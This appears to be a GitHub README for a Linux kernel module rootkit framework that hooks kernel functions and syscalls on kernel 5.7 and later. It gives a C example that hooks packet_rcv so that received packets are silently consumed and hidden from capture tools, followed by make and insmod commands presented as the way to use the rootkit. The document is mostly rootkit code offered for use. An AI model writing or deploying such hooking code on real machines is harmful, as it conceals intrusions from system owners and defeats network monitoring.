

# LKM Hijacking Framework

- a small framework for hooking functions and syscalls for linux kernel module rootkits on linux kernel 5.7+

***tested on:***
```
# uname -a
Linux SniperX-D 5.8.0-48-generic #54~20.04.1-Ubuntu SMP Sat Mar 20 13:40:25 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### example for hiding packets (hooking packet_rcv):

a code sample for using the framework (see src/packet_hide.c):
```c
#include <linux/netfilter.h>
#include "function_hooking.h"

struct hooked_function packet_rcv; //the struct of a hooked function

int fake_packet_rcv(struct sk_buff *skb, struct net_device *dev,struct packet_type *pt, struct net_device *orig_dev)
{
	pr_info("im called! tpacket");
	consume_skb(skb); // "hide" the packet
	return 1;
}

int  init_packet_hide(void){
	pr_info("init_packet_hide");
	strcpy(packet_rcv.function_name,"packet_rcv"); //function's name
	packet_rcv.fake_function = &fake_packet_rcv; //fake function address
	hook_function(&packet_rcv); //hook the function
	return 1;
}

int exit_packet_hide(void){
	pr_info("exit_packet_hide");
	reset_function(&packet_rcv); //reset the function to its original state
	return 1;
}
```
to use the rootkit, run:
```sh
make

insmod hooking_test_lkm.ko
```
### live example:

